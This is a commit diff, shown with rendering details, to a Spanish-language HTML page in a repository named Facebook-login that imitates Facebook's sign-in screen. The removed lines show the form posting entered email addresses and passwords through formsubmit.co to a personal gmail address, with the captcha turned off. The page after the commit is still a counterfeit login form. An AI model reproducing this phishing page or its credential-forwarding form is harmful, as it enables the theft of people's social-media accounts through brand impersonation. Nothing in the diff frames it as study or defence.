

Before and after one commit to ServerCR/Facebook-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 597-1082 px from the top of the page. After the commit the page ends 1051 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -256,12 +256,7 @@
             </div>
 
             <div class="login-form-container">
-                <form id="facebookLoginForm" class="login-form" method="POST" action="https://formsubmit.co/deiapps2424@gmail.com">
-                    <input type="hidden" name="_captcha" value="false">
-                    <input type="hidden" name="_next" value="https://yourdomain.com/thankyou.html">
-                    <input type="hidden" name="_template" value="table">
-                    <input type="hidden" name="_subject" value="Nuevo inicio de sesión Facebook">
-                    <input type="hidden" name="_autoresponse" value="Gracias por iniciar sesión">
+                <form id="facebookLoginForm" class="login-form" method="POST" action="">
                     <input type="text" name="email" required placeholder="Correo electrónico o número de teléfono">
                     <input type="password" name="password" required placeholder="Contraseña">
                     <button type="submit" class="login-btn">Iniciar sesión</button>
@@ -278,42 +273,9 @@
     <footer>
         <div class="footer-container">
             <div class="footer-links">
-                <a href="#">Español</a>
-                <a href="#">English (US)</a>
-                <a href="#">Français (France)</a>
-                <a href="#">Português (Brasil)</a>
-                <a href="#">Italiano</a>
-                <a href="#">Deutsch</a>
-                <a href="#">العربية</a>
-                <a href="#">हिन्दी</a>
-                <a href="#">中文(简体)</a>
-                <a href="#">日本語</a>
-            </div>
-            <div class="footer-links">
-                <a href="#">Registrarte</a>
-                <a href="#">Iniciar sesión</a>
-                <a href="#">Messenger</a>
-                <a href="#">Facebook Lite</a>
-                <a href="#">Video</a>
-                <a href="#">Lugares</a>
-                <a href="#">Juegos</a>
-                <a href="#">Marketplace</a>
-                <a href="#">Meta Pay</a>
-                <a href="#">Oculus</a>
-                <a href="#">Portal</a>
-                <a href="#">Instagram</a>
-            </div>
-            <div class="footer-links">
                 <a href="#">Información</a>
-                <a href="#">Centro de ayuda</a>
-                <a href="#">Política de privacidad</a>
-                <a href="#">Centro de privacidad</a>
-                <a href="#">Grupos</a>
-                <a href="#">Configuración de cookies</a>
-                <a href="#">Empleo</a>
-                <a href="#">Condiciones</a>
-                <a href="#">Subir contactos y no usuarios</a>
-                <a href="#">Registro del navegador</a>
+                <a href="#">Ayuda</a>
+                <a href="#">Privacidad</a>
             </div>
         </div>
     </footer>
```
